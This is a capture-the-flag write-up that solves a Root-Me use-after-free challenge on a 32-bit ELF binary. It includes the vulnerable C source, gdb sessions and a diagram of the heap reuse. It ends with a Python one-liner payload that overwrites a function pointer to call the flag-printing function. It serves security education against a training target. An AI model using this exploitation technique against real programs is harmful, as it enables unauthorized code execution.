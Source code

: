 # ELF x86 - Use After Free - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Use-After-Free-basic
```
Environment configuration :
PIE 	Position Independent Executable 	No
RelRO 	Read Only relocations 	             	Yes
NX 	Non-Executable Stack 	                Yes
Heap exec 	Non-Executable Heap 	        Yes
ASLR 	Address Space Layout Randomization 	Yes  
SRC 	Source code access 	                Yes

Challenge connection informations :

Host	        challenge03.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch63@challenge03.root-me.org    
Username	app-systeme-ch63
Password	app-systeme-ch63
```

The challenge provides a source code, and the title pretty much implies the vulnerability. Let's find it.
```c
struct Dog {
    char name[12];
    void (*bark)();						// <---- a function which does nothing
    void (*bringBackTheFlag)();			// <---- a function which prints the flag
    void (*death)(struct Dog*);			// <---- a function which frees the dog struct
};
struct DogHouse{
    char address[16];
    char name[8];
};

int main(){
	struct Dog* dog = NULL;
    struct DogHouse* dogHouse = NULL;
    [...snip...]
		case '4':
		if(!dog){
				puts("You do not have a dog.");
				break;
		}
		dog->death(dog);					// <---- frees the Dog struct and still keeps the pointer
		break;
	[...snip...]
}
```
As the above code (and comments) describes, there is a UAF vulnerability in this program. It's possible to allocate a Dog struct, and then free it. Afterward, it's possible to allocate a DogHouse in the same memory location of the free'd Dog struct, which will overwrite the Dog's functions.

First let's verify the vulnerability.

So, the plan is:<br>
	1. Buy a dog (allocate a Dog struct).
	2. Kill the dog (free the Dog struct).
	3. Buy a dog house (allocate a DogHouse sturct) which will overwrite a function pointer of the killed dog.
	4. The dog's spirit is still with us, so call its overwrite function (the is no changing of the Dog struct pointer, so it's possible).
	5. Get the flag.
(Note: I love animals and against animal cruelty).

Let's verify the vulnerability and see what's up:
```gdb
(gdb) run
Starting program: /challenge/app-systeme/ch63/ch63
warning: the debug information found in "/lib/old32/libc-2.19.so" does not match "/lib/old32/libc.so.6" (CRC mismatch).

1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
1
How do you name him?
Albert
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
4
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
5
Where do you build it?
AAAABBBBCCCCDDDD
How do you name it?
EEEEFFFF
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
2

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
The following diagram will describe what happend:
```
    1. Allocating a Dog sturct
      +---------------------+--------+--------------------+-------+
      |         Albert      | bark() | bringBackTheFlag() | death |   (24 bytes)
      +---------------------+--------+----------------------------+

    2. Freeing the Dog struct - no change.
    3. Allocating a DogHouse struct in the same memory address (same size).
      +---------------------+--------+--------------------+-------+
      |     AAAABBBBCCCC    |  DDDD  |        EEEE        | FFFF  |   (24 bytes)
      +---------------------+--------+----------------------------+
    4. Running bark() results in segmantation fault.
```
At this point we've got a code execution. Now it's time to leaverage it.<br>
The ASLR is on, but the PIE is off, which means that the _text segment is not
randomized. In addition, according to the source code, the challenge made it
easy for us and added a function which prints the flag - so we won't have to build
a ROP and cat the file.

According to gdb, the function is at 0x80487cb:
```gdb
(gdb) print bringBackTheFlag
$1 = {<text variable, no debug info>} 0x80487cb <bringBackTheFlag>
```

So after combining all of the above, we've got the following output:
```sh
$ python -c "print '1\n' + 'albert\n' + '4\n' + '5\n' + 'AAAABBBBCCCC\xcb\x87\x04\x08\n' + 'EEEEFFFF\n' + '2\n'" | ./ch63
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
How do you name him?
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Where do you build it?
How do you name it?
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
<censored>
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
```
